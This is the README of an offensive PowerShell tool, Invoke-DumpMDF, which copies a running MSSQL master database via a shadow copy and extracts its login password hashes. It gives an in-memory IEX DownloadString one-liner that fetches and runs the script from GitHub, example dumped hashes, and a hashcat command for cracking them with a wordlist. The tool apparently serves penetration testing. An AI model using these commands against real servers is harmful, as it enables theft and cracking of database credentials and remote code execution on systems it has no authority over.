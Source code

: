 # Invoke-DumpMDF

Invoke-DumpMDF is a PowerShell script based on the original code by XPN (xpn.github.io). Invoke-DumpMDF creates a Volume Shadow Copy of the running MSSQL database, allowing the master.mdf file to be safely copied even while in use. It then extracts the login password hashes found within the master database.

Invoke-DumpMDF requires diskshadow to be installed (Default on Windows Server). This is to allow the running master.mdf database to be copied into a new file before extraction. After completion, the script will cleanup after itself. 

Administrative or SYSTEM level privileges are required.

The resulting hashes can be cracked with Hashcat.

## Usage
```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-DumpMDF/refs/heads/main/Invoke-DumpMDF.ps1")

# Execute
Invoke-DumpMDF
```
  
## Example Output
```powershell
PS> Invoke-DumpMDF

Name  : sa
Value : 0x020050B40C7843AC5C196F9375549D3...

Name  : MS_PolicyEventProcessingLogin
Value : 0x0200F54F742AB9F142716E96CB13317...

Name  : MS_PolicyTsqlExecutionLogin
Value : 0x020043538738C5813669062A64AS0CC...
```
## Crack with Hashcat
```
hashcat.exe -m 1731 -a 0 -O 0x020050B40C7843AC5C196F9375549D3... Wordlists\rockyou.txt -r rules\best54.rule
```
## Further Reading 
- https://blog.xpnsec.com/extracting-master-mdf-hashes/
- https://medium.com/@jacobdiamond/extracting-sql-user-hashes-leveraging-bak-files-for-mssql-server-access-in-ad-pentest-b42e7bbcc88c
